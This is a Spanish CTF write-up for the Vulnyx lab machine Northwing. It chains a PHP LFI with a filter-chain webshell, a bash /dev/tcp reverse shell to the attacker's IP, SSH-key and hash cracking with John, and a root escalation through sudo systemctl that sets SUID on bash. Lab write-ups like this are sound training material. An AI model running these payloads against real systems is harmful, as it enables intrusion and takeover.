# 🖥️ Write-Up: [NORTHWING](https://vulnyx.com/)

## 📌 Información General
    - Nombre de la máquina: Northwing
    - Plataforma: Vulnyx
    - Dificultad: Easy
    - Creador: Alherrero
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.2.7**

La máquina Northwing tiene la ip **10.0.2.43**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.



La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.



- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

### Puerto 80

Accedemos con el navegador al servicio web y vemos la web de una empresa de viajes.

Tras revisar sus diferentes directorios vemos que su **index.php** está recibiendo el parámetro **page** por **GET**. Por lo que vamos a probar si es vulnerable a un **Local File Inclusion (LFI)**.

## 🔥 Explotación

Utilizamos este **Wrapper** de **php** en el parámetro **page** para ver si nos puede mostrar el contenido del **index.php** en base64

```bash
php://filter/convert.base64-encode/resource=index.php
```



Podemos ver que nos lo muestra. Por lo tanto, empleamos el [php filter chain generator](https://github.com/synacktiv/php_filter_chain_generator). Con él, generaremos una cadena para poder ejecutar comandos desde la url. Emplearemos una versión reducida de ejecución de comandos de php para evitar que se nos genere una cadena demasiado grande.

```bash
python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```


Podemos ejecutar comandos como el usuario **www-data**, por lo que nos mandamos una reverse shell a nuestro equipo.

Nos ponemos en escucha con **Netcat** en el puerto 443

```bash
nc -nlvp 443
```

Y en nuestro parámetro **0** introducimos la reverse shell

```bash
bash -c 'bash -i >%26 /dev/tcp/10.0.2.7/443 0>%261'
```


Somos **www-data**

## 🧗 Escalada de Privilegios
### Arthur

Si revisamos el directorio **/home** vemos que podemos ejecutar comandos en el directorio de **arthur**, por lo que vamos a leer su **id_rsa**

```bash
ls -la /home/arthur/.ssh
```
Al listar el contenido de su directorio **.ssh** vemos que su id_rsa se llama **id_ed25519**, copiamos su contenido en nuestro equipo y le damos permisos 600 con **chmod**

La **id_rsa** tiene un **passphrase**, por tanto, utilizamos **John the Ripper** y el diccionario **rockyou** para obtenerlo.

```bash
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```



Su **passphrase** es **aventura**, lo usamos para conectarnos por **ssh**

```bash
ssh arthur@10.0.2.43 -i arthur_id_rsa
```

Obtenemos la **flag de user**



### Developer

En **/var/www/html** encontramos un directorio sobre una **internal_app**. Si lo revisamos vemos las credenciales de **mysql** dentro del archivo **connection.php**



Nos conectamos con ellas al servido de **mysql**



Tenemos los hashes de unas contraseñas pertenecientes a los usuarios **arthur** y **developer**, vamos a romperlas con **john**.

Conseguimos obtener la contraseña de **developer** : **greenday**



### Root

Nos convertimos con ella en el usuario **developer** y revisamos sus permisos **sudoers**.



Podemos ejecutar como el usuario **root** el comando **systemctl**, por lo que podemos crear un servicio que le de permisos **SUID** a la **bash**

Creamos en el directorio **/tmp** el archivo que va a contener el servicio, en este caso se llamará **hello.service**

```bash
echo '[Service]
	Type=oneshot
	ExecStart=/bin/bash -c "chmod u+s /bin/bash"
	[Install]
	WantedBy=multi-user.target' >/tmp/hello.service
```

Ahora vinculamos el archivo para que sea un servicio válido

```bash
sudo systemctl link /tmp/hello.service
```

Por último, habilitamos el servicio

```bash
sudo systemctl enable --now /tmp/hello.service
```

Ahora nos lanzamos una **bash** privilegiada con `bash -p` y somos **root**

